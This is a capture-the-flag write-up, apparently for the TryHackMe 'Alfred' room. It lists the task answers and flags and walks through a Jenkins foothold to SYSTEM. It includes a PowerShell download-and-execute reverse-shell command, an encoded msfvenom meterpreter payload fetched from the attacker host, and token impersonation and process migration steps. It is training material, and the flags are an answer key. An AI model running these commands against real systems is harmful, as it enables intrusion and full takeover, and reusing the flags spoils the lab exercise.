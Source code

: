 # Alfred

## Task 1  Initial Access
+ How many ports are open? (TCP only)`3`
+ What is the username and password for the login panel? (in the format username:password)`admin:admin`
+ What is the user.txt flag? `79007a09481963edf2e1321abd9ae2a0`

## Task 2  Switching Shells
+ What is the final size of the exe payload that you generated?`73802`

## Task 3  Privilege Escalation
+ View all the privileges using whoami /priv `No Answer Needed`
+ Enter: load incognito to load the incognito module in Metasploit. Please note that you may need to use the use incognito command if the previous command doesn't work. Also, ensure that your Metasploit is up to date.`No Answer Needed`
+ Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command?`NT AUTHORITY\SYSTEM`
+ Ensure that you migrate to a process with correct permissions (the above question's answer). The safest process to pick is the services.exe process. First, use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS `No Answer Needed`
+ Read the root.txt file located at C:\Windows\System32\config `��dff0f748678f280250f25a45b8046b4a`


### Looting 
- email `alfred@wayneenterprises.com`
- `Invoke-PowerShellTcp.ps1` download from github repository

### Enumeration 
- Nmap scan
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-23 00:24 WIB
Nmap scan report for 10.10.219.22
Host is up (0.37s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ms-wbt-server
|_ssl-date: 2024-01-22T17:30:12+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2024-01-21T17:21:43
|_Not valid after:  2024-07-22T17:21:43
| rdp-ntlm-info: 
|   Target_Name: ALFRED
|   NetBIOS_Domain_Name: ALFRED
|   NetBIOS_Computer_Name: ALFRED
|   DNS_Domain_Name: alfred
|   DNS_Computer_Name: alfred
|   Product_Version: 6.1.7601
|_  System_Time: 2024-01-22T17:30:13+00:00
8080/tcp open  http-proxy
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/

Nmap done: 1 IP address (1 host up) scanned in 354.83 seconds
```

+ Set Command to publish our revershell TCP so victim can download and execute the command from build
```bash
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.4.37.160:81/Invoke-PowerShellTcp.ps1')" ; Invoke-PowerShellTcp -Reverse -IPAddress 10.4.37.160 -Port 4444

┌──(kali㉿kali)-[~/TryHackMe/alfred]
└─$ nc -lvp 4444
listening on [any] 4444 ...
10.10.219.22: inverse host lookup failed: Unknown host
connect to [10.4.37.160] from (UNKNOWN) [10.10.219.22] 49240
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
PS C:\Program Files (x86)\Jenkins\workspace\project> cd ../../../
PS C:\Program Files (x86)> cd ..
PS C:\> cd Users
PS C:\Users> cd bruce
PS C:\Users\bruce> cd Desktop
PS C:\Users\bruce\Desktop> dir 


    Directory: C:\Users\bruce\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        10/25/2019  11:22 PM         32 user.txt                          


PS C:\Users\bruce\Desktop> type user.txt
79007a09481963edf2e1321abd9ae2a0
```
+ Change the shell using meterpreter generate our payload using `msfvenom`
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.4.37.160 LPORT=1337 -f exe -o dodol.exe

┌──(kali㉿kali)-[~/TryHackMe/alfred]
└─$msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.4.37.160 LPORT=1337 -f exe -o dodol.exe

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: dodol.exe
```
+ Upload the payload to the server from previous shell
```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.4.37.160:81/dodol.exe','dodol.exe')"
```
+ Prepare for metasploit to get meterpreter sessions
```bash
msf6 > use exploit/multi/handler                                                                   
[*] Using configured payload generic shell_reverse_tcp      
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 1337
LPORT => 1337
msf6 exploit(multi/handler) > run

meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > getuid
Server username: alfred\bruce

meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
+ Migrate our sessions to persisten services
```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                Arch  Session  User                          Path
 ---   ----  ----                ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System              x64   0
 396   4     smss.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 540   1812  cmd.exe             x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 572   564   csrss.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe        x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 676   580   lsass.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 684   580   lsm.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 772   668   svchost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 848   668   svchost.exe         x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 916   668   svchost.exe         x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 920   608   LogonUI.exe         x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 936   668   svchost.exe         x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 988   668   svchost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1012  668   svchost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1064  668   svchost.exe         x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1208  668   spoolsv.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1236  668   svchost.exe         x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1340  668   amazon-ssm-agent.e  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ss
             xe                                                               m-agent.exe
 1424  668   svchost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1460  668   LiteAgent.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\Lite
                                                                              Agent.exe
 1488  668   svchost.exe         x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1604  524   conhost.exe         x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 1616  668   jenkins.exe         x64   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jenkin
                                                                              s.exe
 1704  668   svchost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1776  668   svchost.exe         x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1812  1616  java.exe            x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bi
                                                                              n\java.exe
 1824  668   Ec2Config.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigServ
                                                                              ice\Ec2Config.exe
 1928  524   conhost.exe         x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 1996  540   powershell.exe      x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowerShell
                                                                              \v1.0\powershell.exe
 2068  1996  dodol.exe           x86   0        alfred\bruce                  C:\Users\bruce\Desktop\dodol.exe
 2348  772   WmiPrvSE.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2760  668   SearchIndexer.exe   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 2960  668   svchost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 3012  668   TrustedInstaller.e  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller
             xe                                                               .exe
 3052  668   sppsvc.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe


meterpreter > migrate 668
[*] Migrating from 2068 to 668...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > pwd
C:\Windows\system32\config
meterpreter > cat root.txt
��dff0f748678f280250f25a45b8046b4a

```
